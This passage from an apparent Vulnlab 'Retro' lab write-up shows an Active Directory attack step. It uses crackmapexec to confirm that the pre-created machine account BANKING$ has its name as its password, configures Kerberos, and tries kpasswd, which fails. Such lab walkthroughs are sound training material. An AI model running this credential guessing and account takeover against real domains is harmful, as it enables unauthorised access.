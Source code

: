 Since we saw the note 'pre-created computer account,' we used `crackmapexec` to verify if the username was the password itself.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro]
└─$ crackmapexec smb 10.10.87.50 -u BANKING$ -p banking
SMB         10.10.87.50     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.87.50     445    DC               [-] retro.vl\BANKING$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```

<img src="attachments/55331abcc3c58c9e4b9131fcdf6d27b6.png" />

The password for this account is the same as the username. When trying to log in, it will show `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`.

To use this account, we need to change the password of the user `BANKING$` using the `kpasswd` tool. Before using it, we must edit the `/etc/krb.conf` file by adding the following configuration.

```
[libdefaults]
    default_realm = RETRO.VL
    dns_lookup_realm = false
    ticket_lifetime = 24h
    renew_lifetime = 7d
    rdns = false
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true

[realms]
    RETRO.VL = {
        kdc = DC.RETRO.VL
        admin_server = DC.RETRO.VL
    }

[domain_realm]
    .retro.vl = RETRO.VL
    retro.vl = RETRO.VL
```

We got the below error :

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro]
└─$ kpasswd BANKING$        
Password for BANKING$@RETRO.VL: 
kpasswd: Preauthentication failed getting initial ticket
```
